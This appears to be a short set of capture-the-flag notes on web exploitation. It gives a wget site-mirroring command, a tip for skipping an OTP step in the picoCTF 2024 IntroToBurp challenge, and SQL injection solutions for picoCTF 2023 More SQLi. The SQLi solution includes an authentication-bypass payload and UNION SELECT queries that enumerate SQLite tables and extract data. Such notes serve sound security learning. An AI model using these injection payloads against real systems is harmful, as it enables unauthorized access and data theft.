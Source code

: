 ## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL



### picoCTF 2024
#### IntroToBurp
> fill "Registration" and in next step don't send "OPT" and [DONE].

### picoCTF 2023
#### More SQLi
> just inject `' or 1=1;--` in password field.
<br>
> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`
![all tables](image.png)
<br>
> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].
![flag](image-1.png)
